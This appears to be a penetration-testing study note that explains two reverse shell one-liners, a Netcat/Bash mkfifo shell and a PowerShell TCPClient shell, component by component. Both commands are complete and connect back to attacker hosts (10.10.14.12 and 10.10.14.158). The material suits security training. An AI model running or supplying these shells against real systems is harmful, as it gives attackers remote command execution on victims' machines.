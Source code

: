 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Introduction to Payloads

**Netcat/Bash Reverse Shell One-liner**

{% code fullWidth="true" %}
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
{% endcode %}

Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).

Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

**Powershell One-liner**

{% code overflow="wrap" fullWidth="true" %}
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}

Executes `powershell.exe` with no profile (`nop`) and executes the command/script block (`-c`) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe`.

Sets/evaluates the variable `$client` equal to (`=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon (`;`) ensures the commands & code are executed sequentially.

Sets/evaluates the variable `$stream` equal to (`=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications. The semi-colon (`;`) ensures the commands & code are executed sequentially.

Creates a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

Starts a `while` loop containing the `$i` variable set equal to (`=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) (`$stream.Read`) method. The parameters: buffer (`$bytes`), offset (`0`), and count (`$bytes.Length`) are defined inside the parentheses of the method.

Sets/evaluates the variable `$data` equal to (`=`) an [ASCII](https://en.wikipedia.org/wiki/ASCII) encoding .NET framework class that will be used in conjunction with the `GetString` method to encode the byte stream (`$bytes`) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. The semi-colon (`;`) ensures the commands & code are executed sequentially.

Sets/evaluates the variable `$sendback` equal to (`=`) the Invoke-Expression (`iex`) cmdlet against the `$data` variable, then redirects the standard error (`2>`) `&` standard output (`1`) through a pipe (`|`) to the `Out-String` cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. The semi-colon (`;`) ensures the commands & code are executed sequentially.

Sets/evaluates the variable `$sendback2` equal to (`=`) the `$sendback` variable plus (`+`) the string PS (`'PS'`) plus `+` path to the working directory (`(pwd).path`) plus (`+`) the string `'> '`. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. The semi-colon (`;`) ensures the commands & code are executed sequentially. Recall that the + operator in programming combines strings when numerical values aren't in use, with the exception of certain languages like C and C++ where a function would be needed.

Sets/evaluates the variable `$sendbyte` equal to (`=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.
